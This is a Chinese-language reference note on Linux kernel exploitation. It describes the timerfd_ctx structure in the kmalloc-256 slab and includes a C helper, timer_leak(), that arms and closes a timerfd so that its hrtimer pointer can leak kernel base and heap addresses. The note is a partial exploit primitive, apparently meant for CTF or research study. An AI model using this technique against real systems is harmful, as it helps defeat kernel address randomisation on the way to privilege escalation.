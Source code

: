 # 这里记录比较常用的内核数据结构


# kmalloc-256

## timerfd_ctx
可泄露堆，内核基地址
### 结构体
+ 实际size: 216 bytes
+ 分配标识: GFP_KERNEL

```c
struct timerfd_ctx {
	union {
		struct hrtimer tmr;
		struct alarm alarm;
	} t;
	ktime_t tintv;
	ktime_t moffs;
	wait_queue_head_t wqh;
	u64 ticks;
	int clockid;
	short unsigned expired;
	short unsigned settime_flags;	/* to show in fdinfo */
	struct rcu_head rcu;
	struct list_head clist;
	spinlock_t cancel_lock;
	bool might_cancel;
};
```
### 分配方式
```c
SYSCALL_DEFINE2(timerfd_create, int, clockid, int, flags)
{
    ...
	ctx = kzalloc(sizeof(*ctx), GFP_KERNEL);
    ...
}

```

### 利用方式

其中结构体的`struct hrtimer tmr `这个字段类型的function字段指向的是一个内核函数，因此他可以泄漏内核代码段基地址,经过实际调试，在这个字段中同样也可以泄露内核堆的地址
其中利用方式如下：
```c
void timer_leak() {
    int timefd =  syscall(__NR_timerfd_create, CLOCK_REALTIME, 0);
    struct itimerspec itimerspec;

	itimerspec.it_interval.tv_sec = 0;
	itimerspec.it_interval.tv_nsec = 0;
	itimerspec.it_value.tv_sec = 100;
	itimerspec.it_value.tv_nsec = 0;

	timerfd_settime(timefd, 0, &itimerspec, 0);
	close(timefd);
	sleep(1);
}
